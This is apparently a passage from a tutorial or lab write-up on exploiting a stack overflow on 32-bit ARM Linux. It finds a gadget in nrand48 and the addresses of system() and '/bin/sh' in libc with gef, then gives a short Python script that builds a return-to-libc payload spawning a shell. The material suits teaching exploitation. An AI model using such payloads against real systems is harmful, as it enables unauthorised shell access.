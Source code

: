we are interested to the address `0x76e9ac3c`, `0x76e9ac48` `0x76e9ac4c` and we don't care too much about `0x76e9ac40 <+60>:	cmp	r2, r3` and `0x76e9ac44 <+64>:	bne	0x76e9ac50 <nrand48+76>` (but our technique can fail if the result of `cmp` will be ZERO, the flag ZERO is set and the branch `bne` will be executed).

Let's focus on this gadget (a series of instructions)

```code
...
0x76e9ac3c <+56>:	ldr	r0, [sp]
0x76e9ac40 <+60>:	cmp	r2, r3
0x76e9ac44 <+64>:	bne	0x76e9ac50 <nrand48+76>
0x76e9ac48 <+68>:	add	sp, sp, #8
0x76e9ac4c <+72>:	pop	{r4, pc}
...
```

If we jump to `0x76e9ac3c`
1. we have set `r0` to the address of string `"/bin/sh"`
2. we have to incremenent `sp` by `8`
3. we can call the `system()` with the pop instruction

```code
gef➤  p system
$1 = {int (const char *)} 0x76ea39c8 <__libc_system>
gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/lib/arm-linux-gnueabihf/libc-2.28.so'(0x76e6b000-0x76fa3000), permission=r-x
  0x76f96b6c - 0x76f96b73  →   "/bin/sh"
```
This is the idea (more or less) about the stack

|STACK        |  Note           |
| :-------------: | :-------------: |
|_0x76f96b73_| _/bin/sh address_  |
| _fill_ | to overcome` add    sp, sp, #8`|
| _fill_ |to overcome ` add    sp, sp, #8`|
| _0x76ea39c8_|_system() address_ |
| ... | ... |

so, let's write our little exploit, according with the information collected so far

```python
import struct

padding = 'A' * 68
filler = 'B'

nrand48 = 0x76e9ac3c
bash = 0x76f96b6c
system =  0x76ea39c8

payload = padding + struct.pack('<I', nrand48) + struct.pack ('<I', bash) + filler + filler + struct.pack('<I', system)

print payload
```
and let's try it
